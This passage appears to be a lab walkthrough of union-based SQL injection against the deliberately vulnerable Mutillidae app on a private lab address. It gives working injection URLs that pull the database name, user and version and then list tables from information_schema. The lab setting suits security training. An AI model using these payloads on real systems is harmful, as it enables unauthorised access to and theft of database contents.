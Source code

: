 
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_28_04_2024_15_29_56.24.png)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![alt text](VirtualBox_kali-linux-2024.1-virtualbox-amd64_28_04_2024_15_29_56.25.png)

